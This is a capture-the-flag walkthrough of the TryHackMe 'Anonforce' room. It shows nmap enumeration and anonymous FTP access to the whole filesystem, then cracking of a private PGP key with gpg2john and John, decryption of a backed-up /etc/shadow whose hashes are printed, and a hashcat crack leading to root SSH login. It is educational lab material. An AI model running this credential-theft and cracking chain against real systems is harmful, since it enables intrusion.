

# Anonforce
**Date:** May 18th 2022

**Author:** j.info

**Link:** [**Anonforce**](https://tryhackme.com/room/bsidesgtanonforce) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- user.txt
- root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.77.246`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

<br>

## FTP Digging

Not having much else to go on with just FTP and SSH open I'll check out the FTP site. We're able to login as **anonymous**:

`ftp 10.10.77.246`

```
Connected to 10.10.77.246.
220 (vsFTPd 3.0.3)
Name (10.10.77.246:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
```

Checking out the files with an `ls -al` it looks like the entire file system is available, which is odd:

```
229 Entering Extended Passive Mode (|||64458|)
150 Here comes the directory listing.
drwxr-xr-x   23 0        0            4096 Aug 11  2019 .
drwxr-xr-x   23 0        0            4096 Aug 11  2019 ..
drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
drwxr-xr-x   17 0        0            3700 May 18 17:50 dev
drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
drwx------    2 0        0           16384 Aug 11  2019 lost+found
drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread
drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
dr-xr-xr-x   92 0        0               0 May 18 17:50 proc
drwx------    3 0        0            4096 Aug 11  2019 root
drwxr-xr-x   18 0        0             540 May 18 17:50 run
drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
dr-xr-xr-x   13 0        0               0 May 18 17:50 sys
drwxrwxrwt    9 0        0            4096 May 18 18:17 tmp
drwxr-xr-x   10 0        0            4096 Aug 11  2019 usr
drwxr-xr-x   11 0        0            4096 Aug 11  2019 var
lrwxrwxrwx    1 0        0              30 Aug 11  2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
lrwxrwxrwx    1 0        0              30 Aug 11  2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
226 Directory send OK.
```

Looking in **/home** shows us only one user named **melodias**:

```
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
```

Inside their home directory we see our **user.txt** flag, which I download and view on my system:

`get user.txt`

Background your FTP connection

`wc -c user.txt`

```
33 user.txt
```

Looking at **/etc/passwd** using the **less** command while still in FTP:

```
root:x:0:0:root:/root:/bin/bash
melodias:x:1000:1000:anonforce,,,:/home/melodias:/bin/bash
```

So we do only have the one user we saw in /home other than root.

Looking in the root of the file system shows us a non standard directory named **notread** that has 777 permissions:

```
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread
```

And inside that directory:

```
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
```

I download both of thse files to my system.

Let's use **gpg2john** to crack **private.asc**:

`gpg2john private.asc > hash`

And then we'll run the hash through **John the Ripper**:

`john hash`

```
<REDACTED>          (anonforce)
```

Now that we have the password we should hopefully be able to import it into gpg and decrypt the backup.pgp file.

`gpg --import private.asc`

```
gpg: keybox '/home/kali/.gnupg/pubring.kbx' created
gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
gpg: key B92CD1F280AD82C2: public key "anonforce <melodias@anonforce.nsa>" imported
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

And then we run a decrypt command:

`gpg --decrypt backup.pgp`

```
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18120:0:99999:7:::
uuidd:*:18120:0:99999:7:::
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
sshd:*:18120:0:99999:7:::
ftp:*:18120:0:99999:7:::
```

So it was a backup copy of the **/etc/shadow** file and we have some password hashes to crack.

I try to crack the password for **melodias** but am unsuccessful. I do however crack the **root** password using **hashcat**:

`hashcat -m 1800 -w 3 -D 1,2 hash.txt rockyou.txt`

```
$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:<REDACTED>
```

<br>

## System Access

Now that we have the username and password let's **ssh** over:

`ssh root@10.10.77.246`

```
root@10.10.77.246's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-157-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

We're already in the root directory and see **root.txt** waiting for us.

`wc -c root.txt`

```
33 root.txt
```

<br>

With that we've finished this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Finding that we can login to the **FTP server as anonymous** and that the entire filesystem is available to look at
- Finding a **private PGP key** and a file encrypted with it
- Using **gpg2john** to create a hash of the private PGP key and then cracking it with **John the Ripper
- Adding the private PGP key to our key ring and using it to **decrypt the file we found**
- The decrypted file was a copy of **/etc/shadow** and we were able to crack the **root hash** using **hashcat** and then ssh into the box

<br>

Many thanks to:
- [**stuxnet**](https://tryhackme.com/p/stuxnet) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)